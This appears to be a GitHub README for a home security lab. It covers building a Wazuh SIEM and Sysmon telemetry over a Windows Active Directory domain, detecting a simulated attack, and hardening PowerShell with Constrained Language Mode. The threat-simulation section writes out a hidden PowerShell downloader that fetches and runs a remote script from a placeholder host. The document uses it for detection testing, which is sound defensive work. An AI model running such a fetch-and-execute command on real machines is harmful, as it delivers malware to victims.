






# Active Directory & SOC Monitoring Lab
An enterprise-grade security operations center (SOC) and host telemetry monitoring lab built natively on Arch Linux (QEMU/KVM). This project demonstrates the deployment of a centralized Wazuh SIEM to monitor host logs and detect simulated adversary behavior on a Windows Server 2022 Active Directory domain environment.

---

## Architecture Overview

The lab simulates a typical corporate network environment utilizing a host-only virtual switch inside the Linux hypervisor.



---

## Technologies & Tools Used
* Hypervisor: QEMU/KVM managed via virt-manager (Linux Native Virtualization)
* SIEM/SOC: Wazuh (All-in-One Manager, Indexer, and Dashboard)
* Directory Services: Active Directory Domain Services (AD DS) & Windows DNS
* Endpoints: Windows Server 2022 (Standard Eval), Windows 11 Enterprise (Eval)
* Endpoint Telemetry: Microsoft Sysmon (with SwiftOnSecurity Configuration)
* Attack Tool: PowerShell execution bypass & webclient downloader signature

---

## Phase-by-Phase Build Log

### Phase 1: Virtualization Stack Setup (Arch Linux Host)
Configured the local virtualization backend using KVM/QEMU for bare-metal virtual performance:
```bash
sudo pacman -S qemu-desktop virt-manager libvirt dnsmasq iptables-nft swtpm edk2-ovmf
sudo systemctl enable --now libvirtd.socket
sudo virsh net-start default
```

### Phase 2: Wazuh SIEM Deployment
Deployed a headless Ubuntu Server 24.04 VM (8GB RAM, 4 vCPUs) and ran the Wazuh quickstart script to deploy the manager, indexer, and web dashboard:
```bash
curl -sO https://packages.wazuh.com/4.14/wazuh-install.sh && sudo bash wazuh-install.sh -a
```

### Phase 3: Active Directory Domain Controller (DC01)
1. Installed Windows Server 2022 (Desktop Experience), configured a static IP, and renamed the machine to DC01.
2. Promoted the server to a Domain Controller for the domain dalcots.local.
3. Created the Active Directory forest and configured DNS forwarding.
4. Joined the Windows 11 Workstation (PC02) to the domain after pointing its primary DNS settings to DC01.


*(Image description: Active Directory Users and Computers Console showing PC02 successfully joined under the Computers Container).*

---

### Phase 4: Ingesting Telemetry (Sysmon & Wazuh Agents)
Installed the Wazuh Agent and Microsoft Sysmon on both endpoints using an automated PowerShell script:
```powershell
# Installs Sysmon with SwiftOnSecurity configuration & Wazuh Agent
$WazuhServerIP = "192.168.122.79"
Invoke-WebRequest -Uri "https://download.sysinternals.com/files/Sysmon.zip" -OutFile "Sysmon.zip"
# [Extraction and installation using sysmonconfig-export.xml]
Invoke-WebRequest -Uri "https://packages.wazuh.com/4.x/windows/wazuh-agent-4.14.0-1.msi" -OutFile "wazuh-agent.msi"
msiexec.exe /i wazuh-agent.msi /q WAZUH_MANAGER="$WazuhServerIP"
Start-Service -Name "WazuhSvc"
```

#### Configuring Sysmon Event Channel Ingestion
To ensure Wazuh collects Sysmon telemetry, the agent configuration file C:\Program Files (x86)\ossec-agent\ossec.conf was modified to include the Sysmon event channel:
```xml
<localfile>
  <location>Microsoft-Windows-Sysmon/Operational</location>
  <log_format>eventchannel</log_format>
</localfile>
```
*Service restarted via:* `Restart-Service -Name "WazuhSvc"`


*(Image description: Wazuh Web Dashboard showing 2 active agents registered and connected to the manager).*

---

## Threat Simulation & Detection Case Study

### The Attack Vector: Hidden PowerShell Downloader
To verify telemetry ingestion and alert generation, a standard obfuscated downloader was executed on PC02 from a standard Command Prompt:
```cmd
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://example.com/malware.ps1'))"
```

### Analysis of the Triggered Alert
Wazuh immediately generated a Level 15 (Critical Severity) Alert based on the Sysmon logs forwarded by the agent. 


*(Image description: Wazuh Threat Hunting Event Details showing Event ID 11 [File Created] for the temporary script policy test written by powershell.exe in the Temp directory).*

#### Key Telemetry Fields Captured:
* **`agent.name`**: `PC02` (Originating victim endpoint)
* **`data.win.eventdata.image`**: `C:\WINDOWS\System32\WindowsPowerShell\v1.0\powershell.exe` (The binary executing the command)
* **`data.win.system.channel`**: `Microsoft-Windows-Sysmon/Operational` (The logging engine that caught the event)
* **`data.win.eventdata.targetFilename`**: `C:\Users\Administrator\AppData\Local\Temp\__PSScriptPolicyTest_...ps1` (The file write event indicating an execution policy bypass check)

---

## Phase 5: Defensive Remediation & Hardening

To protect the network from the executed downloader vector, a hardening policy was deployed to enforce PowerShell Constrained Language Mode (CLM) via Group Policy.

### Step 1: Enforcing CLM via Active Directory GPO
On DC01, a new Group Policy Object (GPO) named `Harden-PowerShell` was created and linked to the root of the dalcots.local domain. An environment variable was configured to globally restrict the PowerShell runtime environment:
* **System Variable Name:** `__PSLockdownPolicy`
* **Value:** `4` (Constrained Language Mode)


*(Image description: Group Policy Management Editor showing the creation of the __PSLockdownPolicy environment variable).*

---

### Step 2: Policy Enforcement & Verification
On the workstation PC02, the policy was updated using `gpupdate /force`. 

Verification of the language mode restriction:
```powershell
$ExecutionContext.SessionState.LanguageMode
```
Output: **`ConstrainedLanguage`**


*(Image description: PowerShell terminal confirming the language mode is restricted to ConstrainedLanguage).*

---

### Step 3: Verifying Mitigation (Blocked Attack)
The PowerShell downloader attack was executed again on PC02. PowerShell immediately terminated the execution, blocking the creation of the .NET webclient object:


*(Image description: PowerShell terminal output displaying a PermissionDenied exception and preventing the download script from running).*

---

## Core Skills Demonstrated
* System Virtualization & Management: KVM/QEMU, Libvirt, virtual switch configuration, hardware passthrough concepts.
* Active Directory Administration: Domain Promotion, Forest creation, Windows DNS configuration, workstation domain joins.
* Endpoint Telemetry & Profiling: Sysmon profiling, event log tuning, OS baseline hardening.
* SOC Operations & Incident Detection: SIEM configuration, agent deployments, rule analysis, event auditing.
* Enterprise GPO Engineering: Enforcing security policies and system lockdown configurations via Active Directory.
